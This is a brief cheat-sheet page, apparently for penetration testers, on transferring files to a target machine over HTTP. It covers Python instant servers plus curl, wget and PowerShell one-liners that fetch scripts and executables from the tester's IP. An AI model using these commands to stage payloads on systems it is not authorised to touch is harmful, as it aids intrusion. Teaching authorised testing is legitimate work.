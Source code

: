 ## HTTP

```bash
 ____  ____  _________  _________  _______          __  __ 
|_   ||   _||  _   _  ||  _   _  ||_   __ \  _     / / / / 
  | |__| |  |_/ | | \_||_/ | | \_|  | |__) |(_)   / / / /  
  |  __  |      | |        | |      |  ___/  _   / / / /   
 _| |  | |_    _| |_      _| |_    _| |_    (_) / / / /    
|____||____|  |_____|    |_____|  |_____|      /_/ /_/     
```

If you just want to download a file to a target, then this is usually your best choice. Outgoing HTTP requests are rarely blocked (Because that would make most of the Internet unusable).

**Start an instant HTTP server:**
```bash
# Build-in python3 http server
python3 -m http.server 8080

# For the low port you will need sudo/root
sudo python3 -m http.server 80

# Python 2 variant
python -m SimpleHTTPServer <port>
```

Like with the other instant-servers, this one uses the current directory as base for serving files. 

This particular server only supports downloads via GET requests though. So for POST file uploads you will require a more complex HTTP server.

### Download files

If you have a GUI, then you can obviously also just use whatever browser is installed and navigate to `http://<your-ip>/somefile.txt` wherein somefile.txt is what you want to download. The Python servers above also offer directory listing if you go to the base directory `http://<your-ip>/`

#### Linux

You know the usual suspects:
```bash
curl http://<your_ip>/somefile.sh -o somefile.sh
```
```bash
wget http://<your_ip>/somefile.sh
```

#### Windows

Powershell:
```powershell
$client = new-object System.Net.WebClient
$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")

# As one-liner
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"
```
